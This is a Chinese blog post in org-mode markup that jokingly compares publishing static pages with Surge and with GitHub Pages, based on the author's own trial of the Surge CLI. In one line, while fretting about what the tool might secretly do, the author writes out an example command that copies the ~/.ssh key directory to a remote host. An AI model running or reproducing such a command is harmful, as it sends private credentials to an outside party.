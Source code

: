 #+TITLE: 吐槽Surge vs Github Pages
#+WIKI: blog,roast
#+STARTUP: inlineimages

我本来是随手搜一下Github Pages对页面路由的友好程度（我估计肯定得用'#'分隔），然
后搜到[[https://github.com/kriasoft/react-static-boilerplate/issues/58#issuecomment-169252404][一个issue的回答]] 推荐Surge，其中一句There are [[http://gh-pages-vs.surge.sh/][articles dedicated]] to how
hard it is to deal with GHPages. （我甚至原样保留了链接）

请自行点进去看吧。它大意是说，为了用Github Pages，你需要点开github页面建帐号生成
密钥上传密钥确认密钥建项目推代码；而Surge只要装npm，然后装surge（
src_bash{npm install --global surge}，global重读），
然后运行一行简单的命令就可以了。还要什么自行车啊！

锤子啊！没感受到本质的区别，我期待的深度吐槽呢？

我自己装了一下，看看人家是怎么做到不要帐号不要密钥的呢？

[[file:surge.png]]

人家说得没错，只要运行一行简单的命令，然后按照提示 *创建* 帐号……所以它重点不在
要创建帐号而是要 *点开页面* 创建帐号。了解了。

虽然不懂它说的权限是什么意思，但是我决定换一个和邮箱一样的域名试试（我估计只要不
是它自家域名就行）。然后我十分配合地放了一个index.html来问好。

[[file:surge2.png]]

WTF！虽然我知道这不可能，但是还是赶紧去看了一下[[wtf.com]]，别人网站好好地在那。长
出一口气。

我好像没有用任何个人信息注册吧？万一弄脏了人家CDN应该也没事。不对，它那个命令做
了什么我完全不知道，万一它做了邪恶的事情（比如
src_bash{scp -r .ssh ooxx@surge.com:}），我就只能长跪不起了。
天知道它的代码有多少人看过。

然后我定睛一看，发现Surge单独搞了个子域名来放这个页面！
[[http://gh-pages-vs.surge.sh/]]！ 好拼啊！

我已经抓不住吐槽的重点了。想来虽然我尚未毕业，但是即将步入中年，思想陈腐，已经被
时代抛弃了。我会努力学习，做出这种简单粗暴，解决痛点的产品。
